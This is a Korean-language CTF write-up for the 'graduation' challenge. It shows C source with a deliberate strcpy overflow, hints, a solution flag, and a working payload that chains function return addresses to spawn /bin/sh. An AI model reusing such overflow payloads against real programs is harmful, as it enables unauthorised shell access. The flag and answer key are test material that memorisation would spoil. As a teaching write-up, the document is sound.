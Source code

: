 # graduation - ??pt

## 문제

우리는 입학부터 졸업까지 여러가지 역경에 휘말립니다. 모든 역경을 뚫고 졸업에 성공합시다 여러분!



## 문제 취지

힌트와 같다.



## 풀이 방법

코드는 다음과 같다. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check = 0;
char usethis[8] = "/bin/sh";

void graduation(char *cmd)
{
        if(check != 4){
                printf("Nah...\n");
                exit(0);
        }

        printf("졸업을 축하드립니다!!!\n");

        // Use this!
        system(cmd);
}

void senior(void)
{
        if(check != 3){
                printf("Nah...\n");
                exit(0);
        }

        printf("곧.... 졸업...\n");
        check = 4;
}

void junior(void)
{
        if(check != 2){
                printf("Nah...\n");
                exit(0);
        }

        printf("벌써 3학년이구먼...\n");
        check = 3;
}

void sophomore(void)
{
        if(check != 1){
                printf("Nah...\n");
                exit(0);
        }

        printf("이제 2학년이네.. 정신차리고 공부해야지..\n");
        check = 2;
}

void freshman(void)
{
        printf("와! 1학년! 와!\n");
        check = 1;
}
void main(int argc, char *argv[])
{
        char buffer[40];
        char* addr;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }
        printf("%p\n", usethis);
        
        // check address
        addr = (char *)&freshman;
        if (memcmp(argv[1] + 52, &addr, 4) != 0){
                printf("입학은 하셔야죠?\n");
                exit(0);
        }

		//do not give to solver
        addr = (char *)&system;
        for (int i = 0; i < 100; i++) {
                if (memcmp(argv[1] + 52 + (i * 4), &addr, 4) == 0) {
                        printf("No hack ~.~\n");
                        exit(0);
            	}
        }
        

        // overflow!
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}

```

코드를 통해 strcpy에서 버퍼오버플로우 공격을 사용해야 한다는 것을 알 수 있고, check 변수가 4가 된 후에 모든 함수를 실행시켜 가장 나중엔 graduation함수를 이용해 `system("/bin/sh\x00")`을 실행시켜야 함을 알 수 있다. 

`check address`와  `do not give to solver`부분에 의해 의도 된 대로 code를 체이닝 해서 풀어야만 이 문제를 풀 수 있다.

먼저 실행시켜보면, argv error가 발생하면서 Segmentation fault가 뜬다. 인자를 아무거나 넣고 실행해보면, usethis의 주소인 0x804c030(다르게 나올 수 있음)이 나오고 실패 문구가 나온다. 힌트를 통해 코드를 연속적으로 호출해야 한다는 힌트를 얻고,

![image](https://user-images.githubusercontent.com/40850499/66598320-c101da00-ebdb-11e9-9673-f1ac5ca2b3fd.png)

objdump -d 명령을 통해 각 함수의 주소를 구할 수 있다. 따라서 다음과 같이 페이로드를 구할 수 있다.

./graduation \`python -c 'print "A"*48 + "\xef\x92\x04\x08" + "\xa0\x92\x04\x08" + "\x51\x92\x04\x08" + "\x02\x92\x04\x08" + "\xb2\x91\x04\x08" + "AAAA" + "\x30\xc0\x04\x08"'\`

![image](https://user-images.githubusercontent.com/40850499/66678066-0559ac80-eca6-11e9-8357-56f230a43cc6.png)



## Flag

scpCTF{I_w4nt_t0_st4y_in_5tud3n7_lif3_4ever}



## 힌트

1. RET를 코드영역의 주소로 덮어씌울 수 있나요? 각 코드의 주소는 objdump 명령어를 통해 확인할 수 있다고 합니다!
2. RET를 덮는 BOF 공격을 연속적으로 할 수 있나요?
3. x86 아키텍쳐에서 함수의 인자 값이 전달 되는 원리를 알고 계신가요? [유용한 링크](<https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl>)



(의도된 풀이로 풀리게끔 소스코드와는 실제로 다르게 코딩 된 부분이 있습니다.)